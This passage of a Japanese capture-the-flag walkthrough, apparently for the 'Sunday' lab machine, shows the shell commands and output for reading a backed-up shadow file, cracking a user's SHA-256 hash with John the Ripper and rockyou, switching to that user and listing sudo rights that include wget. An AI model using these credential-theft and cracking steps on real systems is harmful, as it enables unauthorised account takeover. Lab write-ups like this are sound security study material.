 →何らかのシェルが実行されrootのidが表示されている

* /backupディレクトリに複数のバックアップあり。

```bash
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

→shadowファイルである。

* Sammyのパスワードをハッシュファイルとして保存し、johnコマンドを利用してパスワードを取得する。

```bash
john sammy-hash.txt --show
```

* テキストファイルにはshadowの出力をそのままのフォーマットで張った方が結果が見やすい
* --showで途中経過が見える。長い時に途中でqできるように。

[John the Ripper password cracker](https://www.openwall.com/john/)

```
 sammy-hash.txt ist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8        
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])                         
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)     
1g 0:00:01:21 DONE (2022-07-22 22:22) 0.01222g/s 2491p/s 2491c/s 2491C/s daddyzgurl..chrystelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* sammyにスイッチする。

```bash
su - sammy
```

* sudo権限のあるコマンドを確認する

```bash
sudo -l

-bash-4.4$ sudo -l
ユーザー sammy は sunday 上で コマンドを実行できます
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
